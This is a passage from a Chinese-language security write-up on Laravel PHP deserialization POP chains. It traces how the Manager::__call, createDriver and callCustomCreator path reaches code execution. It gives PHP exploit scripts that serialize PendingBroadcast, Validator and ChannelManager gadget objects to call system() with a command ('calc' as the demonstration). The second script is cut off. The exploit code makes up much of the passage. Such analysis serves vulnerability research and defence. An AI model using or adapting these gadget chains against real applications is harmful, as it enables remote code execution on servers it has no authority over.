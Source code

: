 ![undefined](https://p4.ssl.qhimg.com/t01efbb54c2cba095e0.png "undefined")

### exp
```php
<?php
namespace Illuminate\Validation {
    class Validator {
       public $extensions = [];
       public function __construct() {
            $this->extensions = ['' => 'system'];
       }
    }
}

namespace Illuminate\Broadcasting {
    use  Illuminate\Validation\Validator;
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct($cmd)
        {
            $this->events = new Validator();
            $this->event = $cmd;
        }
    }
    echo base64_encode(serialize(new PendingBroadcast('calc')));
}
?>
```
### POP链利用流程图
![](https://p0.ssl.qhimg.com/t01ddaee826a4457217.png)

## POP链-4
跟进`src/Illuminate/Support/Manager.php`中的`__call()`方法，其调用`driver()`方法

![](https://p1.ssl.qhimg.com/t01c6ae4cbc19ab85f4.png "undefined")

跟进`createDriver()`方法，当`$this->customCreators[$driver]`存在时调用`callCustomCreator()`方法，进一步跟进`callCustomCreator()`方法，发现`$this->customCreators[$driver]`和`$this->app)`均是可控的，因此可以触发 RCE

![](https://p0.ssl.qhimg.com/t011e21a2d3da39647d.png "undefined")

### exp
```php
<?php
namespace Illuminate\Notifications {
    class ChannelManager {
        protected $app;
        protected $customCreators;
        protected $defaultChannel;
        public function __construct() {
            $this->app = 'calc';
            $this->defaultChannel = 'H3rmesk1t';
            $this->customCreators = ['H3rmesk1t' => 'system'];
        }
    }
}


namespace Illuminate\Broadcasting {
    use  Illuminate\Notifications\ChannelManager;
```